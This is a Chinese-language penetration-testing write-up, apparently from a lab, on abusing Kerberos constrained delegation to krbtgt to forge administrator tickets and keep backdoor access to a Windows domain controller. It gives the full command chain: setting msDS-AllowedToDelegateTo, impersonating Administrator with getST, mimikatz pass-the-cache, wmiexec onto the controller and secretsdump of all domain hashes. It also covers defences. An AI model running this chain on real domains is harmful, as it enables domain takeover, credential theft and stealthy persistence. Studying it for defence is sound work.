## 前提环境

复现要求域控 windows 2008R2 及以下版本。2012把权限粒度分小了。

[七友](https://xz.aliyun.com/t/7217)和[n1nty](https://paper.seebug.org/620/)师傅都是在 域控win2008 环境复现的。

[Kerberos Constrained Delegation Overview](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj553400(v=ws.11))

	In earlier operating systems where the domain administrator configured the service, the service administrator had no useful way to know which front-end services delegated to the resource services they owned. And any front-end service that could delegate to a resource service represented a potential attack point. If a server that hosted a front-end service was compromised, and it was configured to delegate to resource services, the resource services could also be compromised.
	
	In Windows Server 2012 R2 and Windows Server 2012, ability to configure constrained delegation for the service has been transferred from the domain administrator to the service administrator. In this way, the back-end service administrator can allow or deny front-end services.

## 利用约束委派生成黄金票据

适用于通过其他方式登录域控，留后门用，但动静可能比较大。

TGS默认的spn是krbtgt/domain name，我们操作环境是krbtgt/LMRSEC.COM

**krbtgt默认是禁用的而且无法启用，所以我们无法使用界面来添加这个SPN。**

我们可以使用powershell来添加:

	Import-Module ActiveDirectory
	$user = Get-ADUser tony
	Set-ADObject $user -Add @{ "msDS-AllowedToDelegateTo" = @("krbtgt/lmrsec.com") }



GUI界面查看一下，成功添加 :



powerview 工具检查 (msds-allowedtodelegateto 字段)：



伪造管理员身份：

	getst.exe -dc-ip 10.10.40.50 -spn krbtgt/lmrsec.com -impersonate Administrator lmrsec.com/tony:Passw0rd

	getST.py: Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate switch to request the ticket on behalf other user.
    Added resource-based constrained delegation support to S4U

参数：
	
	-impersonate：表示伪造用户
	
	-spn：表示我们要委派的服务的spn，这里是TGS
	
	-dc-ip：域控ip

执行之后会在当前目录生成一个缓存文件Administrator.ccache。

linux 使用：```export KRB5CCNAME=Administrator.ccache klist```

或者windows使用mimikatz进行ptc（pass the cache），将缓存注入当前会话中：

	kerberos::ptc Administrator.ccache

查看缓存的票据：

	klist

执行命令的话我们可以用impacket系列或者powershell都可以：

wmiexec 访问域控：

	set KRB5CCNAME=Administrator.ccache
	
	wmiexec.exe -no-pass -k administrator@AD.lmrsec.com -dc-ip 10.10.40.50

导出域控上所有用户以及主机的hash：

	set KRB5CCNAME=Administrator.ccache
	
	secretsdump.exe -no-pass -k AD.lmrsec.com

## 防御约束委派攻击

1.高权限用户没有在特殊要求之下设置为不可委派



开始-》运行-》dsac ->  弹出 Active Directory Administrative Center 

全局搜索-》输入用户名

查看```其它选项```：



2.为了防止凭据被盗微软推出了Protected Users组，适用于Windows Server 2016，Windows Server 2012 R2、 Windows Server 2012

[如何配置受保护的帐户](https://docs.microsoft.com/zh-cn/windows-server/security/windows-authentication/how-to-configure-protected-accounts)

[Protected Users](https://docs.microsoft.com/zh-cn/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts#BKMK_AddtoProtectedUsers)





3.提高服务用户密码强度，防止黑客通过Kerberoasting等手段对口令进行暴力破解

## 后记

1.编译impacket：

```pyinstaller --noconsole --onefile impacket-0.9.22\examples\getST.py```

编译不成功：



还以为导包不成功，原来是包和文件夹同名：



```pip install impacket 或 python setup.py install```



也直接下载一个现成的...

https://github.com/ropnop/impacket_static_binaries/releases

一般没在域环境会报这个错：



后来因为我域控用的2012 权限不够：



[TGT/TGS Issue Error Codes](https://system32.eventsentry.com/codes/field/TGT_TGS%20Issue%20Error%20Codes)

KDC_ERR_BADOPTION:

KDC cannot accommodate requested option. Impending expiration of a TGT. The SPN to which the client is attempting to delegate credentials is not in its Allowed-to-delegate-to list.

getst.exe 获取约束委派的cifs服务的权限：



实战都是proxychains4，很少会把exe真的传上去...

2.能想到用这个场景是通过其他方式获取管理员权限，登录域控设置约束委派留后门吧，因为伪造的黄金票不依赖于krbtgt，不会受krbtgt密码更改影响。但是动静比较大，会留日志等。

[利用 Kerberos delegation 打造变种黄金票据](https://paper.seebug.org/620/)

## 参考资料

[Kerberos Protocol Overview](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/1fb9caca-449f-4183-8f7a-1a5fc7e7290a)

[这是一篇“不一样”的真实渗透测试案例分析文章----**非常经典**](https://www.secpulse.com/archives/125869.html)